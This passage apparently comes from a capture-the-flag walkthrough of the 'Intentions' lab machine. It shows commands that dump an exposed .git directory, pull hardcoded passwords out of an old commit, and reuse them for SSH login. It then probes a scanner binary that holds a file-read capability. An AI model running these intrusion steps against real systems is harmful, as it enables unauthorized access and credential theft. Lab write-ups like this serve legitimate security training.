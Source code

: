 Let's download and examine the .git directory - after setting up an http server:

- `bash gitdumper.sh http://intentions.htb:31337/.git/ source`

- `git checkout 36b4287cf2fb356d868e71dc1ac90fc8fa99d319`

- `cat tests/Feature/Helper.php`

```
if($admin) {
    $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    return $res->headers->get('Authorization');
} 
else {
    $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    return $res->headers->get('Authorization');
}
```

# SSH - greg

`greg:Gr3g1sTh3B3stDev3l0per!1998!` works for SSH!

`user.txt: <redacted>`

`id`

```
uid=1001(greg) gid=1001(greg) groups=1001(greg),1003(scanner)
```

There is a binary:

```
/opt/scanner/scanner cap_dac_read_search=ep
```

https://man7.org/linux/man-pages/man7/capabilities.7.html

```
Bypass file read permission checks and directory read
                 and execute permission checks
```

`cat dmca_check.sh`

```sh
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test
```

**Scanner options:**

```
        Expected output:
        1. Empty if no matches found
        2. A line for every match, example:
                [+] {LABEL} matches {FILE}

  -c string
        Path to image file to check. Cannot be combined with -d
  -d string
        Path to image directory to check. Cannot be combined with -c
  -h string
        Path to colon separated hash file. Not compatible with -p
  -l int
        Maximum bytes of files being checked to hash. Files smaller than this value will be fully hashed. Smaller values are much faster but prone to false positives. (default 500)
  -p    [Debug] Print calculated file hash. Only compatible with -c
  -s string
        Specific hash to check against. Not compatible with -h
```